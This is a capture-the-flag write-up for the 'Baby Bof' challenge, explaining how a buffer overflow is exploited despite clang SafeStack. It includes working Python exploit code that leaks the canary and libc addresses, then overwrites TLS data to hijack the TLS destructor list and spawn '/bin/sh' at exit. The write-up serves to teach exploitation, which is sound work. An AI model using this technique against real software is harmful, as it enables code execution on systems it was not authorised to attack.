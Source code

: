 # Baby Bof

## Description

I made a funny little program. 

It was compiled with a lot of fancy protections, so I didn't even try to code securely.

Author: 0xdeadbeef

## Vulnerability

We can interract with the program in only 2 ways : 
    
1) We can politely ask for the flag. The program will then print our input back to us. It contains an obvious buffer overflow.
    
2) We can choose to give up. If we choose this option, the program will print a few lines and return from the *main* function.

A little reverse engineering shows us that the buffer in which the program puts our input is far too little to contain our input of 0x1337 bytes.
The thing is, the program was compiled using the clang *safe_stack* mechanism. In practice, it means that the program will divide the values that are normally stored on stacks between two distinct stacks.
    
* The *safe_stack* is situated under the ld, where you actually expect to find a stack in most programs. It stores the values the program has total control over, like return addresses, register spills and local variables that the user never touches.
    
* The *unsafe_stack* on the other hand stores basically everything else.

For more information about this mechanism, I suggest you read the [official documentation](https://clang.llvm.org/docs/SafeStack.html). 

## Exploitation

So we can overflow a buffer, but it is situated on the *unsafe_stack*, meaning we will not be able to overwrite any return address with it, preventing us to rop in the traditional way. But is it really the end ?

If we try to search where our user input is stored in memory, we find that it is actually just above where the *libc* is loaded. Or more accurately, just above the *tls*, which encompasses a memory range just above where the *libc* is loaded. And we just happen to have a pretty huge buffer overflow ...

And the program is nice enough to print our input back to us without adding any null byte to it, making it trivial to leak any value or address we might encounter on the way !

Btw, did I forget to tell you that the *tls* is always at a fix offset from *libc* ? 
And, you guessed it, the *unsafe_stack* is always at a fixed offset from the *tls* ;)

### Leaking interesting values

Like the *safe_stack*, the *unsafe_stack* is protected by a *stack_canary*. However, the program will only return when we choose the second option in the menu, so it is not of immediate concern to us. The following code will leak the values of the *stack_canary*, *libc* base address and *unsafe_stack* address.

```python
# Leaking the canary at the end of the safestack
send_payload(b"A"*0x49)
p.recvline()
canary = u64(b"\x00" + p.recvline()[-8:-1])
print("[*] Canary :", hex(canary))


# Leaking the address of the second parameter of setlocale
# Then use it to obtain the libc base address
send_payload(b"A"*0x50 + b"A"*0x698)
p.recvline()
leak = u64(p.recvline()[-7:-1] + b"\x00\x00")
print("[+] Leaked address of setlocale second parameter :", hex(leak))

libc.address = leak - 0x1D4580
print("[+] Libc base address :", hex(libc.address))

# Deduce the safestack address from the libc base address
safestack = libc.address - 0x803000
print("[+] Safe Stack base :", hex(safestack))

payload_addr = safestack + 0x7fffb0
print("[*] Payload starts at address :", hex(payload_addr))
```

### Getting code execution

But how can we use those informations to actually get a shell ?

First of all, controlling the *tls* allows us to overwrite pretty sensitive data (namely the *stack_canary* and the *ptr_mangler*), but it does not allow us to execute any code does it ?

We will answer this question soon, but allow me to ask another : "What the hell does the program do after it returns from main ?"
The answer is quite straightforward : it exits. Or more accurately, it gives the control back to *__libc_start_call_main* which the calls *exit*.

Well, if you actually disassemble the *exit* function in gdb, you will see the following : 

![disass exit](img/screen_1.png)

As you can see, *exit* calls another function named *__run_exit_handlers*. 
Let's look at its first lines of codes (you can read those [here](https://elixir.bootlin.com/glibc/glibc-2.37/source/stdlib/exit.c)): 
![__run_exit_handlers](img/screen_2.png)

The first order of business of *__run_exit_handlers* is to call the TLS destructors using the function *__call_tls_dtors*. 
Let's dive a little deeper and look at its [code](https://elixir.bootlin.com/glibc/glibc-2.37/source/stdlib/cxa_thread_atexit_impl.c) too :

![__call_tls_dtors](img/screen_3.png)

To wrap it up, this function will iterate over the list of TLS destructors. For each one, it dereferences the parameter *func* and demangles it. It then dereferences the parameter *obj* of the same destructor and uses it as the argument of *func*. 
As we already control the *tls*, pointer mangling is not a problem.

So we could try to create our very own *dtor_list*. One where *func* would be *system* and *obj* a pointer to the string "/bin/sh" for example :D.
We will only have to store a pointer to it in the *tls* and let *__run_exit_handlers* do the work !

```python
# Crafting a flase tls_dtors_struct
tls_dtors_struct = p64(rol(libc.sym["system"], 0x11, 64)) + p64(next(libc.search(b"/bin/sh"))) + p64(0) + p64(1)

# Saving the rest of the data found in the tls so nothing breaks
tls_data = p64(libc.address + 0x1d4580)
tls_data += p64(libc.address + 0x1dc440)
tls_data += p64(0)
tls_data += p64(libc.address + 0x17c4c0)
tls_data += p64(libc.address + 0x17cac0)
tls_data += p64(libc.address + 0x17d3c0)
tls_data += p64(payload_addr) # Address of tls_dtors_struct
tls_data += p64(0) * 10
tls_data += p64(payload_addr)
tls_data += p64(safestack)
tls_data += p64(0x0000000000800000)
tls_data += p64(0x0000000000001000)
tls_data += p64(libc.address - 0x28c0)
tls_data += p64(libc.address - 0x1f20)
tls_data += p64(libc.address - 0x28c0)
tls_data += p64(0) * 2
tls_data += p64(0) # Saved state of the canary in tls
tls_data += p64(0) # Saved state of the ptr_mangler in tls


send_payload(tls_dtors_struct + b"A"*0x28 + p64(canary)*2 + b"A"*0x698 + tls_data) 
exit()
```

![flag](img/screen_4.png)

Hope you enjoyed ^^
